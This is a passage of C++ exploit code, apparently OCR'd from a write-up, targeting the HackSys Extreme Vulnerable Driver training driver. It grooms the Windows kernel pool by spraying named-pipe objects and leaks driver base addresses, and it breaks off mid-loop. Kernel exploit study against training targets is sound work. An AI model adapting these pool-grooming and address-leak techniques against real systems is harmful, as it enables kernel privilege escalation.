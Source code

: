 ```cpp

PipeHandles CreatePipeObject() {
    DWORD ALLOC_SIZE = 0x70;
    BYTE uBuffer[0x28]; // ALLOC_SIZE - HEADER_SIZE (0x48)
    BOOL res = FALSE;
    HANDLE readPipe = NULL;
    HANDLE writePipe = NULL;
    DWORD resultLength;

    RtlFillMemory(uBuffer, 0x28, 0x41);
    if (!CreatePipe(&readPipe, &writePipe, NULL, sizeof(uBuffer))) {
        Error("CreatePipe");
    }

    if (!WriteFile(writePipe, uBuffer, sizeof(uBuffer), &resultLength, NULL)) {
        Error("WriteFile");
    }
    return PipeHandles{ readPipe, writePipe };
}

QWORD getBaseAddr(LPCWSTR drvName) {
    LPVOID drivers[512];
    DWORD cbNeeded;
    int nDrivers, i = 0;
    if (EnumDeviceDrivers(drivers, sizeof(drivers), &cbNeeded) && cbNeeded < sizeof(drivers)) {
        WCHAR szDrivers[512];
        nDrivers = cbNeeded / sizeof(drivers[0]);
        for (i = 0; i < nDrivers; i++) {
            if (GetDeviceDriverBaseName(drivers[i], szDrivers, sizeof(szDrivers) / sizeof(szDrivers[0]))) {
                if (wcscmp(szDrivers, drvName) == 0) {
                    return (QWORD)drivers[i];
                }
            }
        }
    }
    return 0;
}

int main() {
    DWORD bytesWritten;
    HANDLE hDriver = CreateFile(L"\\\\.\\HacksysExtremeVulnerableDriver", GENERIC_READ | GENERIC_WRITE, 0, NULL, OPEN_EXISTING, 0, NULL);
    if (hDriver == INVALID_HANDLE_VALUE) {
        Error("CreateFile");
    }

    printf("[>] Spraying objects for pool defragmentation..\n");
    std::vector<PipeHandles> defragPipeHandles;
    for (int i = 0; i < 20000; i++) {
        PipeHandles pipeHandle = CreatePipeObject();
        defragPipeHandles.push_back(pipeHandle);
    }

    printf("[>] Spraying objects in sequential allocation..\n");
    std::vector<PipeHandles> seqPipeHandles;
    for (int i = 0; i < 60000; i++) {
        PipeHandles pipeHandle = CreatePipeObject();
        seqPipeHandles.push_back(pipeHandle);
    }

    printf("[>] Creating object holes..\n");
    for (int i = 0; i < seqPipeHandles.size(); i++) {
```